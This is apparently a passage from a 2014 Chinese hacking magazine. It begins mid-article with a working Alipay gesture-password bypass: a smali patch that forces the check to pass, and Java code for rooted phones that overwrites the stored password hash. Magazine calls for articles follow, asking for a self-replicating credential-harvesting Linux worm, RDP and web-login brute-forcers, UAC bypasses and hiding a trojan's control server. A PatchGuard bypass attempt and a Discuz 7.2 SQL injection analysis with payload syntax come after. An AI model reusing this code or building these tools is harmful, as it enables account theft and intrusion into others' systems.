- 2）在 if-eqz v0 前 patch v0，代码如图 13 所示。

```smali
invoke-virtual {v0, v1}, Ljava/lang/String;->equals(Ljava/lang/Object;)Z

move-result v0

const/4 v0, 0x1

if-eqz v0, :cond_1
```

图 13

完成上述两步操作之后，保存修改过的 smali 文件，编译打包，重新安装支付宝钱包客户端，随意输入手势密码。这里引用大魔术师刘谦的一句话，“接下来就是见证奇迹的时刻”。在我们随意输入密码之后，熟悉的支付宝主界面出现在我们眼前，同时 LogCat 输出日志如图 14 所示。


图 14

日志的组成大致如下：

- 第一行：用户输入的、还未加密的手势代码；
- 第二行：保存在数据库中正确的加密后的手势密码；
- 第三行：未加密的 user id；
- 第四行：采用 des 加密后的 user id；
- 第五行：拼接用户输入和加密后的 user id；
- 第六行：采用 sha1 算法计算出来的加密之后的用户输入的手势密码。

通过仔细分析日志，我们从中可以得出两个结论：

- 1）真实的手势密码和我们输入的密码是不一样的，但是我们还是进入了支付宝的主界面。证明我们上面第 2 步中修改的地方非常关键，从而也印证了 e.smali 文件的 a 函数确实是用户输入真实密码的关键函数。
- 2）支付宝是将用户的手势操作转化成对应的数字，然后再做一定的加密处理之后保存到数据库中。比较用户输入的时候，是用相同的加密步骤对用户输入进行加密，再与数据库中保存的密码做比较。数字代码对应如图 15 所示。


图 15

程序分析到这里，我们已经清楚地明白了支付宝手势密码的加密过程和算法，并且通过修改关键跳转的方法，使得我们随意输入手势密码都可以进入支付宝主界面。

### 仔细思考——还原手势密码

回过头来仔细想想，手势密码的加密流程是这样的：用户输入 + user id 组成一个字符串，将该字符串经过 sha1 算法之后得到另一个加密字符串，即为手势密码。其中，user id 字符串在 alipayclient.db 数据库的 userinfo 表中的 userId 字段已经表明了，正确的手势密码 gesturePwd 字段也已经有了。虽然 sha1 算法不可逆，但是在我们的这个实例中，最长输入是 9 位，最短为 4 位，我们完全可以通过已知的信息，采用有限的穷举，就能得出正确的手势代码了。相信对于现在的 4 核乃至 8 核 CPU 手机来说，这个计算应该是很轻松的。

但是，我们只能通过穷举来实现暴力破解吗？答案是否定的。其实我们完全可以自己构造一个输入，例如 0123，采用和支付宝完全相同的加密流程得到手势密码。然后，通过修改 userinfo 表的 gesturePwd 字段内容为上面我们计算出来的手势密码。这样，就能实现随意修改手势密码的目的了。想法有了，下面我们编写代码来验证该方法是否可行。

### 代码实现

查看支付宝使用的 sha1 算法可知，该算法与支付宝的整体功能业务切合度基本为 0，于是我将 sha1 算法所在的 smali 文件转换成 jar 包，然后导入到我的工程中。这样，就可以直接调用和支付宝完全相同的 sha1 算法了。程序代码如下所示：

```java
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    setContentView(R.layout.activity_main);
    setTitle("支付宝手势密码修改器");
    szUerIdString = "";
    tvStatus = (TextView) findViewById(R.id.textStatus);
    etEncryptUserid = (EditText) findViewById(R.id.editEncryptUserId);
    etDecryptUserid = (EditText) findViewById(R.id.editDecrypUserId);
    etMyPwd = (EditText) findViewById(R.id.editMyselfPwd);
    btnOK = (Button) findViewById(R.id.btnSetting);
    if (!RootUtils.hasRootPermission()) {
        tvStatus.setText("本程序只能在 ROOT 过的手机上运行！");
        return;
    }
    if (!RootUtils.hasInstalledApp(MainActivity.this, "com.eg.android.AlipayGphone")) {
        tvStatus.setText("请确认您已经安装了支付宝钱包！");
        return;
    }

    String szUserId = getUserId();
    if (!szUserId.isEmpty()) {
        szUerIdString = szUserId;
        etEncryptUserid.setText(szUserId);
        tvStatus.setText("读取 user id 成功，请输入自定义手势密码！");
        String szDecryptUserid = decryptUserid(szUserId, "userInfo");

        if (!szDecryptUserid.isEmpty()) {
            etDecryptUserid.setText(szDecryptUserid);
        } else {
            tvStatus.setText("解密 user id 失败！");
        }

        btnOK.setOnClickListener(new OnClickListener() {
            @Override
            public void onClick(View view) {
                String szPwd = etMyPwd.getText().toString();
                if (szPwd.isEmpty()) {
                    Toast.makeText(MainActivity.this, "设置的自定义密码不能为空，请重新输入！", Toast.LENGTH_LONG).show();
                } else {
                    StringBuilder sBuilder = new StringBuilder();
                    sBuilder.append(szPwd);
                    sBuilder.append(szUerIdString);

                    String tmp = sBuilder.toString();
                    String sha1 = com.alipay.mobile.security.gesture.util.SHA1.sha1(tmp);
                    Log.v(TAG, sha1);
                    if (!sha1.isEmpty()) {
                        if (updateDatabaseGesturePwd(szUerIdString, sha1)) {
                            tvStatus.setText("设置自定义密码成功！");
                        } else {
                            tvStatus.setText("设置自定义密码失败！");
                        }
                    }
                }
            }
        });
    } else {
        tvStatus.setText("获取 user id 失败！");
    }
}
```

获取 user id 和修改手势密码的代码如下：

```java
// 获取加密的 user id
private String getUserId() {
    String szRet = "";
    // 修改数据库文件的读写权限
    RootUtils.RootCommand("chmod 666 /data/data/com.eg.android.AlipayGphone/databases/alipayclient.db");
    RootUtils.RootCommand("chmod 666 /data/data/com.eg.android.AlipayGphone/databases/alipayclient.db-journal");
    try {
        Context context = createPackageContext("com.eg.android.AlipayGphone", Context.CONTEXT_IGNORE_SECURITY);
        SQLiteDatabase dB = context.openOrCreateDatabase("alipayclient.db", 0, null);
        Cursor cursor = dB.rawQuery("select * from userinfo", null);
        if (cursor.moveToFirst()) {
            szRet = cursor.getString(USER_ID_INDEX);
        }
        dB.close();
    } catch (NameNotFoundException e1) {
        e1.printStackTrace();
    }
    return szRet;
}

// 修改手势密码
private boolean updateDatabaseGesturePwd(String szUerId, String szPwd) {
    boolean bRet = false;

    if (szPwd.isEmpty() || szUerId.isEmpty()) {
        return bRet;
    }
    try {
        Context context = createPackageContext("com.eg.android.AlipayGphone", Context.CONTEXT_IGNORE_SECURITY);
        SQLiteDatabase dB = context.openOrCreateDatabase("alipayclient.db", 0, null);
        ContentValues cv = new ContentValues();
        cv.put("gesturePwd", szPwd);
        String[] args = { String.valueOf(szUerId) };
        int n = dB.update("userinfo", cv, "userId=?", args);
        if (n > 0) {
            bRet = true;
        }
        dB.close();
    } catch (NameNotFoundException e1) {
        e1.printStackTrace();
    }
    return bRet;
}
```

#### Android 远程监控技术

```c
return bRet;

}
```

最后，程序运行效果如图 16 所示。


图 16

输入自定义密码，点击确认，程序提示设置成功。此时，打开支付宝，输入我们的自定义手势代码即可解锁支付宝，进入熟悉的主界面了。

## 后记

综上所述，通过修改支付宝钱包数据库来达到破解目的的方法，是需要在已经 root 过的手机上才能使用的。设想一下这种情况：我的手机已经 root，并且手机被盗。那么，除了手机上的信息有可能泄露之外，还可以通过修改支付宝的手势密码来登录我的支付宝。因此，造成直接的金钱损失也不是没有可能。

一般来说，普通用户日常使用的手机尽量不要去 root，也不要随便下载来历不明的软件和外挂。

（完）

### 2014 年第 7 期杂志特约选题征稿

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：675122680@qq.com、hadefence@gmail.com，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬按照最高标准发放！特别优秀的稿酬另议。第 7 期的部分选题如下，完整的选题内容请见每月发送的约稿邮件。

### 1. 绕过 Windows UAC 的权限限制

自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。

- 1) Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
- 2) Windows UAC 低权限下，进入系统后提高账户权限的方法。

### 2. Windows7 屏幕保护密码获取

非重启系统状态下，本机（非远程受控机）屏幕保护已启动，本地获取 Windows7 屏幕保护密码的方法。

### 3. 虚拟机穿透

主机安装有虚拟机，现已远程控制虚拟机，寻求如何利用虚拟机的弱点，穿透虚拟机，进而控制本机的方法。

### 4. Linux 自动检测网络安全

- 要求：
  - 1）自动收集当前 Linux 系统的信息，如 uname、hosts、passwd、shadow、ifconfig、ps、netstat、history 等；
  - 2）通过我们提供的帐号密码库自动测试远程登录，若登录成功则将远程主机的地址、端口、帐号、密码以及从哪一台机器登录等详细记录；
  - 3）将该程序自动复制到第 2 步成功登录的远程 Linux 主机，并重复 1、2、3 步操作；
  - 4）可以手动制定结束条件，比如测试主机的个数，目的是防止重复登录；
  - 5）将 1、2、3 中收集或记录的信息回传到一开始的主机；
  - 6）完成操作后清除相关的操作记录。

### 5. 暴力破解 3389 远程桌面密码

- 要求：
  - 1）针对 Windows 3389 远程桌面实现暴力破解密码；
  - 2）读取指定的用户名和密码字典文件；
  - 3）采用多线程；
  - 4）所有函数都必须判断错误值；
  - 5）使用 VC++2008 编译工具实现，控制台程序；
  - 6）代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
  - 7）支持 Windows XP/2003/2008。

### 6. WEB 服务器批量扫描破解

- 1) 针对目标 IP 参数要求  
  10.10.0.0/16  
  10.10.3.0/24  
  10.10.1.0-10.255.255.255

- 2) 针对目标 Web 服务器扫描要求  
  可以识别目标 Web 服务器上运行的 Web 服务器程序，比如 APACHE 或者 IIS 等，具体参考如下：  
  Tomcat、Weblogic、Jboss  
  Apache、JOnAS、WebSphere  
  Lotus Server、IIS(Webdav)、Axis2  
  Coldfusion、Monkey HTTPD、Nginx

- 3) 针对目标 Web 服务器后台扫描  
  针对目标进行后台地址搜索。

- 4) 针对目标 Web 后台密码破解  
  搜索到 Web 登录后台以后，尝试弱口令破解，可以指定字典。

### 7. 木马控制端 IP 地址隐藏

要求：

- 1) 在远程控制配置 server 时，一般情况下控制地址是写入被控端的，当木马样本被捕获分析时，可以分析出控制地址。针对这个问题，研究控制端地址隐藏技术，即使木马样本被捕获，也无法轻易发现木马的控制端真实地址。
- 2) 使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现。

### 8. Web 后台弱口令暴力破解

说明：

针对国际常用建站系统以及自编写的 WEB 后台无验证码登录形式的后台弱口令帐密暴力破解。

要求：

- 1) 能够自动或自定义抓取建站系统后台登录验证脚本 URL，如 WordPress、Joomla、Drupal、MetInfo 等常用建站系统；
- 2) 根据抓取提交帐密的 URL，可自动或自定义选择提交方式，自动或自定义提交登录的参数，这里的自动指的是根据默认字典；
- 3) 可自定义设置暴力破解速度，破解的时候需要显示进度条；
- 4) 高级功能：默认字典跑不出来的后台，可根据设置相应的 GOOGLE、BING 等搜索引擎关键词，智能抓取并分析是否是后台，以及自动抓取登录 URL 及其参数；默认字典跑不出来的帐密可通过 GOOGLE、BING 等搜索引擎抓取目标相关的用户账户、邮箱账户，并以这些账户简单构造爆破帐密，如用户为 admin，密码可自动填充为域名；用户为 abcd@abcd.com，账户密码就可以设置为 abcd abcd、abcd abcd123 或 abcd abcd123456 等简单帐密；
- 5) 拓展：尽可能多搜集国外常用建站系统后台来增强该软件查找并定位后台 URL 能力；暴力破解要稳定，后台 URL 字典以及帐密字典可自定义设置等。

### 9. 编写端口扫描器

要求：

- 1）扫描出目标机器开放的端口，支持 TCP Connect、SYN、UDP 扫描方式；
- 2）扫描方式采用多线程，并能设置线程数；
- 3）将功能编写成 DLL，导出功能函数；
- 4）代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 5）尽量多做出错异常处理，以防程序意外崩溃；
- 6）使用 VC++2008 编译工具编写；
- 7）支持系统 Windows XP/2003/2008/7。

### 10. Android WIFI Tether 数据转储劫持

说明：

WIFI Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi‑Fi 热点），请参照 WIFI Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

要求：

- 1）开启 WIFI 热点后，对流经本机的所有网络数据进行存储；
- 2）不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT；
- 3）针对 HTTP 下载进行劫持，比如用户下载 www.xx.com/abc.zip，软件能拦截此地址并替换 abc.zip 文件。

### 11. 突破 Windows7 UAC

说明：

编写一个程序，绕过 Windows7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

要求：

- 1）Windows UAC 安全设置为最高级别；
- 2）系统补丁打到最新；
- 3）支持 32 位和 64 位系统。

## 2014 年征稿启示

《黑客防线》作为一本技术月刊，已经 14 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

#### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 POC 进行分析研究，编写并提供优化的 exploit 的思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台的安全机制的研究。

### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证！最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实例讲解。

### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统的渗透、提权技术讨论；特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实例均在此栏目发表，杜绝任何无亮点技术文章！

### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

#### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名、针对主流搜索引擎的多关键词排名的优化技术。

#### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

#### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

### 投稿格式要求：

- 1) 技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图1”“图2”；
- 2) 在稿件末尾请注明您的账户名、银行账号以及开户地址，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。
- 3) 投稿方式和周期：  
  采用 E-Mail 方式投稿，投稿 mail：hadefence@gmail.com、QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另投他处。限于人力，未采用的恕不退稿，请自留底稿。

**重点提示：** 严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。

- 4) 稿费发放周期：  
  稿费当月发放（最迟不超过 2 月），稿费从优。欢迎更多的专业技术人员加入到这个行列。
- 5) 根据稿件质量，分为一等、二等、三等稿件，稿费标准如下：  
  - 一等稿件　900 元/篇  
  - 二等稿件　600 元/篇  
  - 三等稿件　300 元/篇
- 6) 稿费发放办法：  
  银行卡发放，支持境内各大银行借记卡，不支持信用卡。
- 7) 投稿信箱及编辑联系  
  投稿信箱：675122680@qq.com、hadefence@gmail.com  
  编辑 QQ：675122680

# 黑客防线

在攻与防的对立统一中寻求突破

总第 163 期 2014

网站全新改版，欢迎访问：http://www.hacker.com.cn

## PatchGuard 攻防

- Discuz! 7.2 faq.php 文件 SQL 注入漏洞分析及利用实战
- 非 HOOK 方式伪造 Android 设备特征信息
- 探讨 Windows 下文件反取证的几种方式
- 解密金山隐私保险箱


## 《黑客防线》7期文章目录

总第 163 期 2014 年

#### 漏洞攻防

- PatchGuard 攻防（李旭昇）……3
- Discuz! 7.2 faq.php 文件 SQL 注入漏洞分析及利用实战（simeon）……6

#### 编程解析

- 探讨 Windows 下文件反取证的几种方式（倪程）……17
- 基于搜索引擎编写邮箱采集器（耿靓）……20
- 解密金山隐私保险箱（莫灰灰）……23
- 详解 Windows 的注册表机制（王晓松）……33

#### 密界寻踪

- 记一个有趣的 0xCC 检测程序（木羊）……40

#### Android 远程监控技术

- 非 HOOK 方式伪造 Android 设备特征信息（Glorevo）……45
- 2014 年第 8 期杂志特约选题征稿……52
- 2014 年征稿启示……55

## PatchGuard 攻防

文/图 李旭昇

PatchGuard 也称为内核补丁保护（Kernel Patch Protection，KPP），是微软在 64 位 Windows 操作系统上引入的一项安全机制。它最初部署在 64 位 XP 和 Windows Server 2003 SP1 上，并被后续 64 位 Windows 操作系统沿用。简单来说，PatchGuard 每隔一段时间会检查内核中重要数据和代码的完整性，如果发现任何修改，就以代码 0x109 蓝屏。PatchGuard 保护的内容包括：SSDT、IDT、GDT、MSR 和 ntoskrnl.exe 等基本系统模块、进程链表等。

PatchGuard 的目的是禁止 DKOM 和 Ring0 Hook 等直接修改系统内核的方法，从而提升系统的安全性。不过由于 PatchGuard 与驱动程序运行在同样的特权级（Ring0）下，PatchGuard 无法从根本上保证系统的安全。为此，微软模糊了 PatchGuard 的代码和符号，并运用大量技巧来保证 PatchGuard 不被恶意驱动程序破坏。

有关 PatchGuard 的详细分析请参考 Uninformed.org 上的三篇文章，这里限于篇幅不再重复。本文记录了对 PatchGuard 由浅入深的研究与攻击。虽然最后未能如愿攻破 PatchGuard 这道防线，但也学到许多巧妙的保护机制，感觉收获良多。故作此文，与大家分享。

### 第一回合：KeBugCheck(Ex)

无论 PatchGuard 例程的触发方式多么隐秘（事实上是利用 DPC Timer，但从这里入手比较复杂，请参考前面三篇论文），它在检测到任何修改后都会以 0x109 代码蓝屏，这是绝佳的攻击点。如果在这里做些文章，是不是能力挽狂澜，使得 PatchGuard 失声呢？下面是具体过程。

**攻 1：以 0xC3 覆盖 KeBugCheckEx 的第一个字节。**

如图 1 所示，0xC3 对应的汇编指令是 ret。如果 PatchGuard 例程执行到这里就自行返回，我们便不战而胜。


图 1 以 0xC3 覆盖 KeBugCheckEx 的第一个字节

**守 1：备份一份 KeBugCheckEx（及其调用的函数）的代码并在执行前覆盖当前代码。**

分析：由于 KeBugCheckEx 的代码处于 PatchGuard 保护范围之内，我们的修改将被检测到。本次攻击没有奏效，且崩溃转储中 KeBugCheckEx 代码的第一个字节不是 0xC3，而是原始的 0x48。我重复了实验，并在蓝屏前用 Windbg 验证 KeBugCheckEx 函数的第一个字节，确实已经被修改为 0xC3。我又尝试修改 KeBugCheckEx 函数后面的字节及其调用的函数代码，结果蓝屏后这些代码都恢复如初。这只有一种解释：PatchGuard 以某种方式（通常会涉及加密）备份这些函数的代码，并在真正执行之前覆盖一遍。

看来简单地修改 KeBugCheckEx 函数代码是行不通的，而试图寻找 PatchGuard 所做的备份无异于大海捞针。但由于“简单的返回”带来的巨大诱惑，我决定尝试一种不太优雅的方案。

### 攻 2：以死循环反复覆盖 KeBugCheckEx 的第一个字节

虽然 PatchGuard 用备份的代码覆盖被修改过的代码只需很短的时间，但这段时间相比于我们的死循环（只有几条指令）执行一次所需的时间还是很久的。这样我们可以用一个 CPU 核心的代价“锁定”KeBugCheckEx 的第一个字节。如果这种方法能够奏效，PatchGuard 事实上已经被破解。

但是这种方法仍然以失败告终。由于线程调度的原因，有几次试验中 PatchGuard 成功无阻地导致蓝屏。在另外的实验中，我们的死循环成功促使 PatchGuard 执行 C3 指令，但结果是系统立刻卡死（既无响应，也不蓝屏）。查资料才知道 DPC Routine 是不能这样简单返回的！要想解决这个 Routine，可以将其引入一个死循环。

### 攻 3：将 PatchGuard 引入死循环

只需两个字节就可以制造一个死循环：`0xEB 0xFE`。`0xEB` 表示 `jmp` 指令，后面跟的是偏移。`0xFE` 是 -2，也就是下一条指令位于当前指令末尾往前两个字节。而当前指令的长度恰好是两个字节，所以下一条指令就是当前指令，于是会形成一个死循环。

将 PatchGuard 引入死循环可以避免蓝屏，也不会立刻卡死，但是如图 2 和图 3 所示，PatchGuard 例程每执行一次都会导致一个 CPU 核心进入死循环，所以这种方法不是长久之计。


图 2 第一个 PatchGuard 例程陷入死循环后，CPU 占用率提高到 50%（其中 25% 被用来反复覆盖 KeBugCheckEx 的第一个字节）


图 3 Process Explorer 工具记录到 System 进程中两个占用 25% CPU 的线程（第一个是 PatchGuard 例程，第二个是我编写的驱动）

### 第二回合：硬件断点

IA-32 处理器提供 8 个调试寄存器（Debug Register，DR），分别称为 DR0-DR7，其中 DR4 和 DR5 保留不用，DR0-DR3 中最多可以设置四个硬件断点的地址，DR7 中设置这四个断点的类型（读/写/执行）和长度。如果能够借助硬件断点拦下 PatchGuard 的脚步，我们就有进一步…步进取得机会。需要注意的是，VMWare 和 Bochs 对硬件断点的实现与真正的 IA-32 处理器不完全一样（参见《x86 x64 体系探案及编程》），以下实验都在真机上进行。如果读者重复实验，请注意保存和备份数据，以免因反复蓝屏造成损失。

## 攻 1：在 KeBugCheckEx 上设置硬件断点

我们在 DR0 中放置 KeBugCheckEx 函数的地址，并在 DR7 的 R/W0 位设置 11B，表示在 DR0 寄存器指向的地址上读写数据都中断。由前面的分析知道，PatchGuard 的行为会导致调试中断。虽然我们没有处理这个中断，将会导致蓝屏，但蓝屏的代码一定不是 0x109。如果可以实现断下 PatchGuard 例程，我们再做 IDT Hook 来自行处理这个中断也不迟。

## 守 1：在覆盖 KeBugCheckEx 代码前清空 DR7

不出所料，十分钟左右之后蓝屏了，蓝屏代码仍然是 0x109。检查崩溃转储的时候发现 DR0 中仍然是 KeBugCheckEx 的地址，但是 DR7 已被清空（事实上是设置为 0x401，但关键位均被清空），我们的计划被粉碎了。看来微软还是在 PatchGuard 的自我保护上下了一番功夫。攻守都是相对的，是不是我们的驱动程序想要对抗硬件断点只需在执行关键操作前清空一下 DR7 就行了呢？并不是这么简单。DR7 寄存器的第 13 位为 GD 位（General Detect），用于保护调试寄存器。当 GD 位置 1 时，如果 CPU 检测到下一条指令将要修改调试寄存器（DR0-DR7），CPU 会在执行这条指令之前产生一个调试异常。我们试试这种方法能否奏效。

## 攻 2：设置 DR7 的 GD 位

注意，一定要先设置好 DR0 和 DR7 中断点相关的位再打开 GD。如果先打开 GD，设置断点的时候就会导致调试异常（进而蓝屏），这不是我们预期的。

这次还是失败了——0x109 蓝屏。检查崩溃转储的时候发现 DR7 再次被清空！难道 GD 位没发挥作用？非也。刚刚说过，实验中我尝试过先设置 GD 位再修改 DR0 和 DR7，这样也会导致蓝屏，但这种蓝屏是由未处理的调试异常导致的，其代码绝对不会是 PatchGuard 专用的 0x109。

为了验证 PatchGuard 确实有某种神秘的方法将 DR7 清空，我开启 DR7 的 R/W0 位和 GD 位并循环读取 DR7 的值。注意，GD 只关注修改调试寄存器的指令，我们循环读取并不会导致调试异常。如图 3 所示，DR7 每隔一段时间就会被清空，而这段时间恰与 PatchGuard 例程的触发间隔相当。

```text
189  450.01702881 TimerDpc called 90 times. Currently running on cpu0
190  450.01702881 dr7: 1025
191  455.01721191 TimerDpc called 91 times. Currently running on cpu0
192  455.01721191 dr7: 1024
193  455.01721191 !!!!!!!!!! dr7 was cleared, reset to 0x401
194  460.01742554 TimerDpc called 92 times. Currently running on cpu0
195  460.01742554 dr7: 1025
```

图 3 设置 GD 位后 DR7 仍然被清空（设为 0x401）

## 第三回合：IDT Hook

PatchGuard 是如何做到这一点的呢？最直接的方法当然是 IDT Hook。如果用自己的 ISR 处理调试异常，只需忽略 DR6 中用来指示修改调试寄存器的 BD 位即可。当然，我们可以预先进行 IDT Hook，并在 1 号 ISR 的入口处和指向 1 号 ISR 的指针上下硬件写入断点。这样 PatchGuard 试图进行 Hook 时就会被断下，我们的服务例程将取得控制权。IDT Hook 的具体代码这里不再重复，任何一本内核安全编程的书中都有详解。有关 x64 内联汇编的方法请参考我在本刊 2014 年第一期上的文章《X64 程序内联汇编方法》。

不过 PatchGuard 显然比我想象的更为复杂，这次仍然是 PatchGuard 取得胜利。检查崩溃转储的时候发现中断描述符表的基址发生了变化，而且新的 1 号描述符的服务例程指向一个新的服务例程。也就是 PatchGuard 先通过 LIDT 改变该表的基址，然后又将 1 号 ISR 指向自己提供的服务例程。为了迷惑攻击者，PatchGuard 还精心地用原本的 1 号 ISR 覆盖被我下断点的 ISR。如果我未曾检查中断描述符表基址，肯定无法发现其中的秘密！

我的实验过程到此就告一段落。如果想要就这个方向继续开展新的攻击，可能需要用到 VT 等虚拟化技术，拦截对 LIDT 指令的访问。不过如果采用 VT 技术，只需直接修改指令，并在读取该指令时返回原先的指令即可。理论上这样便简单地骗过了 PatchGuard。有兴趣的读者可以自行实验。本次实验虽然没有攻破 PatchGuard，但也收获了许多巧妙的方法和思路。由于笔者水平有限，不当之处还望行家批评指正。

## Discuz!7.2 faq.php 文件 SQL 注入漏洞分析及利用实战

文/图 [antian365.com] simeon

最近网上公开了 Discuz!7.2 版本 faq.php 文件 SQL 注入 0day，通过对文件漏洞分析以及实战测试，效果不错。公开 exp 的利用需要对 SQL 语句以及数据库等相当了解，在某些情况下需要多种技术配合才能最终攻克目标。下面就漏洞代码以及实战利用等进行探讨，对获取管理员密码的利用、uc_key 获取 webshell、插件导入获取 Webshell 等进行探讨。

### faq.php 文件 SQL 注入漏洞代码分析

本次存在漏洞的文件为 **faq.php**，打开该文件后，从第 **148** 行开始，代码如下：

```php
} elseif($action == 'grouppermission') {
    require_once './include/forum.func.php';
    require_once language('misc');
    $permlang = $language;
    unset($language);
    $searchgroupid = isset($searchgroupid) ? intval($searchgroupid) : $groupid;
    $groups = $grouplist = array();
    $query = $db->query("SELECT groupid, type, grouptitle, radminid FROM {$tablepre}usergroups ORDER BY (creditshigher<>'0' || creditslower<>'0'), creditslower");
    $cgdata = $nextgid = '';
    while($group = $db->fetch_array($query)) {
        $group['type'] = $group['type'] == 'special' && $group['radminid'] ? 'specialadmin' : $group['type'];
        $groups[$group['type']][] = array($group['groupid'], $group['grouptitle']);
        $grouplist[$group['type']] .= '<option value="'.$group['groupid'].'"'.($searchgroupid == $group['groupid'] ? ' selected="selected"' : '').'>'.$group['grouptitle'].($groupid == $group['groupid'] ? ' &larr;' : '').'</option>';
        if($group['groupid'] == $searchgroupid) {
            $cgdata = array($group['type'], count($groups[$group['type']]) - 1, $group['groupid']);
        }
    }
    if($cgdata[0] == 'member') {
        $nextgid = $groups[$cgdata[0]][$cgdata[1] + 1][0];
        if($cgdata[1] > 0) {
            $gids[1] = $groups[$cgdata[0]][$cgdata[1] - 1];
        }
        $gids[2] = $groups[$cgdata[0]][$cgdata[1]];
        if($cgdata[1] < count($groups[$cgdata[0]]) - 1) {
            $gids[3] = $groups[$cgdata[0]][$cgdata[1] + 1];
            if(count($gids) == 2) {
                $gids[4] = $groups[$cgdata[0]][$cgdata[1] + 2];
            }
        } elseif(count($gids) == 2) {
            $gids[0] = $groups[$cgdata[0]][$cgdata[1] - 2];
        }
    } else {
        $gids[1] = $groups[$cgdata[0]][$cgdata[1]];
    }
    ksort($gids);
    $groupids = array();
    foreach($gids as $row) {
        $groupids[] = $row[0];
    }

    $query = $db->query("SELECT * FROM {$tablepre}usergroups u LEFT JOIN
{$tablepre}admingroups a ON u.groupid=a.admingid WHERE u.groupid IN
(".implodeids($groupids).")");
    $groups = array();
```

首先定义一个数组 groupids，然后遍历 $gids（这也是个数组，就是 $_GET[gids]），将数组中所有值的第一位取出来放在 groupids 中。为什么这个操作会造成注入？在《高级 PHP 应用程序漏洞审核技术》一文里的“魔术引号带来的新的安全问题”一节里，有提到通过提取魔术引号产生的“\\”字符带来的安全问题，同样这个问题在这里又一次得到了完美体现。

discuz 在全局会对 GET 数组进行 addslashes 转义，也就是说会将 `'` 转义成 `\'`，所以，如果我们传入的参数是：`gids[1]='` 的话，会被转义成 `$gids[1]=\'`，而这个赋值语句 `$groupids[]=$row[0]` 就相当于取了字符串的第一个字符，也就是 `\`，把转义符号取出来了。在将数据放入 SQL 语句前，通过 implodeids 函数进行处理了一遍，implodeids 函数如下：

```php
function implodeids($array) {
    if(!empty($array)) {
        return "'".implode("','", is_array($array) ? $array : array($array))."'";
    } else {
        return "''";
    }
}
```

很简单的一个函数，就是将刚才的 $groupids 数组用 `','` 分割开，组成一个类似于 `'1','2','3','4'` 的字符串返回。但是我们的数组刚取出来一个转义符，它会将这里一个正常的 `'` 转义掉，比如这样：`'1','\','3','4'`。

有没有看出有点不同，第 4 个单引号被转义了，也就是说第 5 个单引号和第 3 个单引号闭合。这样 3 这个位置就等于逃逸出了单引号，也就产生了注入。我们把报错语句放在 3 这个位置，就能报错。

利用上面提到的思路，通过提交 **faq.php?xigr[]= &xigr[][uid]=evilcode** 这样的构造形式，可以很容易地突破 GPC 或类似的安全处理，形成 SQL 注入漏洞。因此我们可以如下构造利用代码：

```text
